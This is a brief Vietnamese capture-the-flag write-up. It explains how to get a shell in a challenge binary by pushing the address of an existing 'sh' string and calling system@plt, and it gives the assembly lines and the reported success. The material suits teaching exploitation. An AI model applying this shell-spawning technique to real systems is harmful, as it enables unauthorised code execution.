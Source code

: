 # solution

trong binary đã có sẵn string `sh`, 

```c
void NEVER_CALL()
{
system("echo how do you get here? you won find sh"); // sh is here
}
```
chỉ cần gọi system("sh") là có shell rồi

```assembly
push 0x80487D3
call 0xffffe3eb  ; địa chỉ system@plt - địa chỉ lệnh call = 0xffffe3eb
```

![Alt text](image-1.png)

excute sh thành công
